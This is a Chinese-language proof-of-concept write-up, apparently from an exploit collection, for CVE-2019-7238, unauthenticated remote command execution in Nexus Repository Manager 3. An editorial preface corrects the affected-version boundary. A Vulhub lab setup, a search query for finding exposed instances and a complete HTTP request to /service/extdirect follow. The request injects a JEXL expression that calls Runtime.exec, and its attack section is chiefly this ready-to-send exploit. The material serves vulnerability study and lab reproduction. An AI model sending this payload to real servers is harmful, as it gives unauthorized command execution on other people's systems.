



## 核对与使用边界

- 明确更正：CVE-2019-7238 包含 3.14.0，原 `Nexus < 3.14.0` 漏掉边界。官方原公告转引与 CVE 记录给首修复 3.15.0；不将该阈值推广到其他 Nexus 漏洞。

核对来源：[Sonatype 官方社区公告及团队回复](https://community.sonatype.com/t/sonatype-nexus-repository-manager-remote-code-execution-vulnerability-advisory/1222)；[CVE 记录](https://www.cve.org/CVERecord?id=CVE-2019-7238)

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：影响表&lt;3.14.0却实验3.14.0、简介&lt;=3.14.0，边界错误；需仓库已有可查询asset

代码与实验材料：完整请求、上传jar环境准备与结果图；匿名读取asset权限需明确，HTTP长度需重算

来源证据范围：官方公告、独立研究、JEXL文档较好

- **事实待核（1）**：影响范围排除实验有漏洞版本；依据：&lt;3.14.0与实验3.14.0矛盾。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：实验管理权限与漏洞权限应区分；依据：admin上传jar仅准备asset，不是利用必需登录；需说明匿名禁用/asset权限情形。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Nexus Repository Manager 3 extdirect 远程命令执行漏洞 CVE-2019-7238

## 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.14.0及之前版本中，存在一处基于OrientDB自定义函数的任意JEXL表达式执行功能，而这处功能存在未授权访问漏洞，将可以导致任意命令执行漏洞。

参考链接：

- https://support.sonatype.com/hc/en-us/articles/360017310793-CVE-2019-7238-Nexus-Repository-Manager-3-Missing-Access-Controls-and-Remote-Code-Execution-February-5th-2019
- https://xz.aliyun.com/t/4136
- https://www.anquanke.com/post/id/171116
- http://commons.apache.org/proper/commons-jexl/

## 漏洞影响

```
Nexus < 3.14.0
```

## 网络测绘

```
app="Nexus-Repository-Manager"
```

## 环境搭建

Vulhub执行如下命令启动Nexus Repository Manager 3.14.0：

```
docker-compose up -d
```

等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

使用账号密码`admin:admin123`登录后台，然后在maven-releases下随便上传一个jar包：



触发该漏洞，必须保证仓库里至少有一个包存在。

## 漏洞复现

接口没有校验权限，所以直接发送如下数据包，即可执行`touch /tmp/success`命令：

```
POST /service/extdirect HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 368
Connection: close

{"action":"coreui_Component","method":"previewAssets","data":[{"page":1,"start":0,"limit":50,"sort":[{"property":"name","direction":"ASC"}],"filter":
[{"property":"repositoryName","value":"*"},{"property":"expression","value":"233.class.forName('java.lang.Runtime').getRuntime().exec('touch /tmp/success')"},{"property":"type","value":"jexl"}]}],"type":"rpc","tid":8}
```



可见，`/tmp/success`已成功执行：



原理是expression位置的JEXL表达式被执行，详情可阅读参考文档。


---

> 来源：Threekiii/Awesome-POC
